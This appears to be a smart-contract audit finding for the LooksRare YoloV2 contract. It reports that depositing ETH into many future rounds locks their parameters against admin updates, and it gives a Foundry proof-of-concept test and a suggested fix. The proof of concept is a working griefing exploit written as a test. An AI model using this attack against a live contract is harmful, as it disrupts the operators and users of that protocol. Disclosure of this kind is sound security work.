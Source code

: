 Immense Caramel Grasshopper

medium

# `depositETHIntoMultipleRounds` can render admin functions `updateMaximumNumberOfParticipantsPerRound`, `updateValuePerEntry` and `updateProtocolFeeBp` useless



## Summary

The  `depositETHIntoMultipleRounds` function allows users to deposit ETH (Native Asset) to current and future rounds. This in turn sets the future rounds maximum number of participants, value per entry and protocol fee bp to the value of the currently set values leaving no room for the admin functions to update the any of these params as rounds progress even though there are functions built to do so.

## Vulnerability Detail

The vulnerability occurs in the  `depositETHIntoMultipleRounds`
It checks to see if the value per entry for the current or future round in the loop is set and if it isnt, its sets it to the current roundValuePerEntry to whatever the currently set state value per entry is, same goes for the max number of participants and protocol Fee Bp in the `_writeDataToRound` function.

```javascript
    function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
        // code above
        // ...

        if (roundValuePerEntry == 0) {
            (,, roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
        }
        // ...
        // code below
    }
```

What this does is essentially setting the future rounds max number of participants, value per entry and protocol fee bp without a way to change it for the rounds.

There are functions `updateMaximumNumberOfParticipantsPerRound`, `updateValuePerEntry` and `updateProtocolFeeBp` established to do this but they would never change the value for the round no matter how many times you call them because they update the state variable of the value and not the round specific value used in round calculations.

So an attacker could easily deposit into many rounds into the future and restrict the admins from being able to update round parameters as desired.

#### POC

```javascript
    function test_DepositETHIntoMultipleRounds__RendersSomeAdminFunctionalityUseless() public {
        // Admin Functionalities In POC Scope Rendered Useless:
        // 1. updateMaximumNumberOfParticipantsPerRound
        // 2. updateValuePerEntry
        // 3. updateProtocolFeeBp

        // round Id's
        uint256 roundOne = 1;

        // deployed set params
        uint40 deployedMaxNumberOfParticipants = MAXIMUM_NUMBER_OF_PARTICIPANTS_PER_ROUND;
        uint16 deployedProtocolFeeBp = 300;
        uint96 deployedValuePerEntry = 0.01 ether;

        // making sure the round one keeps the deployed params
        (, uint40 roundOneMaximumNumberOfParticipants, uint16 roundOneProtocolFeeBp,,,,, uint96 roundOneValuePerEntry,,)
        = yolo.getRound(roundOne);
        assertEq(roundOneMaximumNumberOfParticipants, deployedMaxNumberOfParticipants);
        assertEq(roundOneProtocolFeeBp, deployedProtocolFeeBp);
        assertEq(roundOneValuePerEntry, deployedValuePerEntry);

        // attack prep
        uint256 numberOfRoundsToRenderAdminFunctionUseless = 500;
        uint256 justAboveValuePerEntryAmount = 0.02 ether;
        uint256 balanceToDealToCoverAttack = justAboveValuePerEntryAmount * numberOfRoundsToRenderAdminFunctionUseless;

        uint256[] memory amounts = new uint256[](numberOfRoundsToRenderAdminFunctionUseless);
        for (uint256 m; m < numberOfRoundsToRenderAdminFunctionUseless; m++) {
            amounts[m] = justAboveValuePerEntryAmount;
        }

        vm.deal(user1, balanceToDealToCoverAttack);

        // this call makes all future rounds admin functionalities thats in scope for this POC useless
        // it sets a value per entry on each round which cant be changed by the admins
        vm.prank(user1);
        yolo.depositETHIntoMultipleRounds{value: balanceToDealToCoverAttack}(amounts);

        uint96 newValuePerEntry = 0.02 ether;
        uint40 newMaximumNumberOfParticipants = MAXIMUM_NUMBER_OF_PARTICIPANTS_PER_ROUND + 20;
        uint16 newProtocolFeeBp = 500;

        for (uint256 i; i < numberOfRoundsToRenderAdminFunctionUseless; i++) {
            // update for new rounds: max number of participants, protocol fee bp, value per entry
            // they'll never reflect in these rounds until the next `numberOfRoundsToRenderAdminFunctionUseless`
            vm.startPrank(owner);
            yolo.updateValuePerEntry(newValuePerEntry);
            yolo.updateProtocolFeeBp(newProtocolFeeBp);
            yolo.updateMaximumNumberOfParticipantsPerRound(newMaximumNumberOfParticipants);
            vm.stopPrank();

            // move to next round
            _cancelRound();
        }

        _handlePOCAssertions(deployedMaxNumberOfParticipants, deployedProtocolFeeBp, deployedValuePerEntry);
    }

    function _handlePOCAssertions(
        uint40 deployedMaxNumberOfParticipants,
        uint16 deployedProtocolFeeBp,
        uint96 deployedValuePerEntry
    ) internal {
        uint256 roundHundredAndNinetySeven = 197;

        // ROUND HUNDRED AND NINETY SEVEN
        (, uint40 round197MaxParticipants, uint16 round197ProtocolFeeBp,,,,, uint96 round197ValuePerEntryOne,,) =
            yolo.getRound(roundHundredAndNinetySeven);

        assertEq(round197MaxParticipants, deployedMaxNumberOfParticipants);
        assertEq(round197ProtocolFeeBp, deployedProtocolFeeBp);
        assertEq(round197ValuePerEntryOne, deployedValuePerEntry);
    }

```

## Impact
Medium
`updateMaximumNumberOfParticipantsPerRound`, `updateValuePerEntry` and `updateProtocolFeeBp` that were created to update value per entry for rounds for a set amount of rounds that the attacker wishes.
Lets assume the attacker renders this function useless for the next 500 rounds and admins are eventually able get the updates they want after 500 rounds. 
The attacker can simly do the same for the next 500 rounds meaning admins again would have to wait for the next 500 rounds for an update to reflect.
Considering deployment to also take place on chains that are cost friendly this wont cost the attacker much.

## Code Snippet

Vulnerability lies in the for loop of the `depositETHIntoMultipleRounds` funciton.

Link To Code Snippet [Here](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L332)

## Tool used

Manual Review

## Recommendation

The `depositETHIntoMultipleRounds` can have a limit on the number of future rounds a user can enter OR the `updateMaximumNumberOfParticipantsPerRound`, `updateValuePerEntry` and `updateProtocolFeeBp` can take in a round parameter and be specific about which round value per entry its updating.
